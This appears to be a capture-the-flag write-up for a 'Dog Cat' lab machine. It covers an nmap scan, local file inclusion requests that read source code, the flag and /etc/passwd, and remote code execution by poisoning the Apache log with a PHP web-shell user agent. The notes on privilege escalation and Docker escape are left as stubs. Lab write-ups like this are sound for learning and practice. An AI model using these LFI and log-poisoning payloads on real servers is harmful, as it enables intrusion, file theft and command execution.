


# Dog Cat

## Scanning & Enumeration

### Nmap

```bash
nmap -A -T4 -oN nmap/initial $TARGET
```

oppen port are :
| num | service | version |
| --- | --- | --- |
| 22/tcp | ssh | OpenSSH 7.6p1 |
| 80/tcp | http | Apache httpd 2.4.38 |

## Exploitation

### Http 80

The web page is vulnerable to LFI :

we use that to extract the code source of the page.

we retrieve the first flag at :

```bash
GET /?view=php://filter/convert.base64-encode/resource=dog../../flag HTTP/1.1
```

### Gaining a shell

by loading this link :

```bash
GET /?view=dog../../../../../../etc/passwd&ext= HTTP/1.1
```

we can retrieve the [/etc/passwd](passwd) file

#### RCE via Apache log poisoning

set user agent as

```php
<?php system($_GET['cmd']);?>
```

got to url and execute commands

```bash
?view=php://filter/resource=dog../../../../../../var/log/apache2/access.log&ext=&cmd=whoami
```

not working very well a take a look to this writeup
<https://fr33s0ul.tech/dogcat-thm-write-up/>



## Priviledge escalation

### SUID Binary

* sudo -l

## Docker Evasion

*backup.sh
